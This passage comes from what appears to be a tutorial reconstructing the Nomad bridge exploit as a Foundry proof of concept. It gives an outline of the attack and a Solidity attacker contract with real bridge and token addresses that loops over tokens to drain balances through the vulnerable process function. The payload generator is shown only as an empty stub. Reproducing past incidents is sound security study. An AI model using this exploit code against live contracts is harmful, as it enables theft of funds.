 We’ll start by selecting an RPC provider with archive access. For this demonstration, we will be using [the free public RPC aggregator](https://www.ankr.com/rpc/eth/) provided by Ankr. We select the block number 15259100 as our fork block, 1 block before the first hack transaction.

Our PoC needs to run through a number of steps on a single transaction to be successful. Here is a high-level overview of what we will be implementing in our attack PoC:

1. Select a given ERC-20 token and check the balance of the Nomad ERC-20 bridge contract.
2. Generate a message payload with the right parameters to unlock funds, among which our attacker address as the recipient and the full token balance as the amount of funds to be unlocked.
3. Call the vulnerable process function, which will lead to a transfer of tokens to the recipient address.
4. Loop through various ERC-20 tokens with a relevant presence on the bridge’s balance to drain those funds in the same fashion.

Let’s code one step at a time, and eventually look at how the entire PoC looks. We will be using Foundry.

## The Attack

```
pragma solidity ^0.8.13;
 
import "@openzeppelin/token/ERC20/ERC20.sol";
 
interface IReplica {
   function process(bytes memory _message) external returns (bool _success);
}
 
contract Attacker {
   address constant REPLICA = 0x5D94309E5a0090b165FA4181519701637B6DAEBA;
   address constant ERC20_BRIDGE = 0x88A69B4E698A4B090DF6CF5Bd7B2D47325Ad30A3;
 
   // tokens
   address [] public tokens = [
       0x2260FAC5E5542a773Aa44fBCfeDf7C193bc2C599, // WBTC
       0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2, // WETH
       0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48, // USDC
       0xdAC17F958D2ee523a2206206994597C13D831ec7, // USDT
       0x6B175474E89094C44Da98b954EedeAC495271d0F, // DAI
       0x3432B6A60D23Ca0dFCa7761B7ab56459D9C964D0, // FRAX
       0xD417144312DbF50465b1C641d016962017Ef6240  // CQT
   ];
 
   function attack() external {
       for (uint i = 0; i < tokens.length; i++) {
           address token = tokens[i];
           uint256 amount_bridge = IERC20(token).balanceOf(ERC20_BRIDGE);
 
           bytes memory payload = genPayload(msg.sender, token, amount_bridge);
           bool success = IReplica(REPLICA).process(payload);
           require(success, "Failed to process the payload");
       }
   }
 
   function genPayload(
       address recipient,
       address token,
       uint256 amount
   ) internal pure returns (bytes memory) {}
}
```
<div align=center>
